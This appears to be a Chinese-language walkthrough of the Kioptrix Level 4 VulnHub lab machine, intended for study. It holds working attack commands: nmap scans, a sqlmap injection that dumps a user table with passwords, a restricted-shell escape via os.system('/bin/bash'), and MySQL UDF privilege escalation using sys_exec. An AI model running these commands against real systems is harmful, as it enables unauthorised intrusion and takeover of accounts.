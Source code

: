 # Kioptrix4-WalkThrough

> 笔记内容由 [xidaner](https://github.com/xidaner) 提供,仅做部分内容排版修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**

```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- SQL 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/12.png)

---

## 登陆 MYSQL

```
mysql -u root -p
```

---

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
select sys_exec('usermod -a -G admin john');
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Kioptrix/Kioptrix4/19.png)

`whoami` 确认获取 `root`

提权成功,感谢 Kioptrix Team 制作靶机

---

# 补充

**扫描 smb**

目标开放 139 445 这意味着可能可以枚举用户名

`nmap -sC --script smb-enum-users.nse <目标IP>`

`enum4linux <目标IP>`

这2个命令都可以

**udf 提权**

需要 udf 提权,需要检查 mysql 是否以 root 权限运行
```
ls -la /usr/lib/lib_mysqludf_sys.so
```
